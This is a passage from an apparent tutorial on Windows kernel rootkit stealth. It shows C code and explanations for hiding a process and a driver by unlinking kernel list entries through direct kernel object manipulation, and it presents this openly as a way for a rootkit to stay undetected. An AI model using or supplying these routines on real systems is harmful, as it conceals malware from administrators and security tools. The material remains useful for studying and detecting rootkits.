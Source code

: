 ```c
        // Move to the next process
        currentList = currentList->Flink;
        currentEProcess = CONTAINING_RECORD(currentList, EPROCESS, ActiveProcessLinks);
    } while (currentList != &currentEProcess->ActiveProcessLinks);
    
    return STATUS_NOT_FOUND;  // Process not found
}
```

`HideProcess`, which hides a process using the DKOM technique. It takes the Process ID (PID) of the target process as an argument. Here's how it works:

1. It starts by obtaining the current `EPROCESS` structure for the executing driver using `PsGetCurrentProcess`.
2. The code then retrieves the offsets within the `EPROCESS` structure for `UniqueProcessId` and `ActiveProcessLinks`.
3. It iterates through the list of active processes, comparing the PID of each process with the target PID. When it finds a match, it unlinks the process from the `ActiveProcessLinks` list, effectively hiding it.
4. The function returns `STATUS_SUCCESS` if it successfully hides the process. If the target process is not found, it returns `STATUS_NOT_FOUND`.
### Hiding a Driver
In addition to hiding processes, we can also employ the DKOM technique to hide drivers from the system. This is particularly useful in scenarios where a rootkit needs to remain undetected

```c
// Function to hide a driver by manipulating data structures
NTSTATUS HideDriver(PDRIVER_OBJECT driverObject) {
    KIRQL irql;
    
    // Raise IRQL to DPC level
    irql = KeRaiseIrqlToDpcLevel();
    
    // Get the module entry from the DriverObject
    PLDR_DATA_TABLE_ENTRY moduleEntry = (PLDR_DATA_TABLE_ENTRY)driverObject->DriverSection;
    
    // Unlink the module entry
    moduleEntry->InLoadOrderLinks.Blink->Flink = moduleEntry->InLoadOrderLinks.Flink;
    moduleEntry->InLoadOrderLinks.Flink->Blink = moduleEntry->InLoadOrderLinks.Blink;
    
    // Lower IRQL back to its original value
    KeLowerIrql(irql);
    
    return STATUS_SUCCESS;
}

```

`HideDriver` function is designed to hide a driver by manipulating kernel data structures. Here's a breakdown of how it works:

1. It raises the IRQL (Interrupt Request Level) to DPC (Deferred Procedure Call) level using `KeRaiseIrqlToDpcLevel`. This is essential to ensure that the manipulation of kernel data structures is performed atomically and doesn't interfere with ongoing system operations.
2. Next, it obtains the module entry by casting the `DriverSection` member of the provided `driverObject` to a `PLDR_DATA_TABLE_ENTRY`. This provides access to information about the driver module.
3. It unlinks the module entry from the kernel's internal linked lists. By manipulating the `InLoadOrderLinks` member of the module entry, it effectively removes the driver from the list of loaded modules.
4. Finally, it lowers the IRQL back to its original value using `KeLowerIrql`, allowing normal system operation to resume.
